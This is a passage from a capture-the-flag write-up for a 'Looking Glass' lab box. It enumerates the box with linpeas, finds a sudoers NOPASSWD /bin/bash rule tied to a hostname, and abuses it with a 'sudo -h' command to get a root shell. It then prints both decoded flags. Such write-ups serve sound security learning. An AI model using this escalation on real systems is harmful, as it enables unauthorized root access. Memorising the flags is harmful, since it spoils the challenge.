 Save it and go into ssh with that:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610233743.png)
Let's check valuable stuff for it, we can use `linpeas`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610233939.png)

As seen, the sudoers file has something on it, we got:

```
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

We can abuse this to get a shell as root by doing:

```
sudo -h ssalg-gnikool /bin/bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610234029.png)

Nice, we were able to get root, let's get both flags:

```
root@looking-glass:/tmp# cat /home/jabberwock/user.txt
}32a911966cab2d643f5d57d9e0173d56{mht
```

Oh, first flag is reversed, we can do:

```
root@looking-glass:/tmp# cat /home/jabberwock/user.txt | rev
thm{65d3710e9d75d5f346d2bac669119a23}
```

Nice, let's get final flag, this one's reversed too:

```
root@looking-glass:/tmp# cat /root/root.txt | rev
thm{bc2337b6f97d057b01da718ced6ead3f}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250610234200.png)

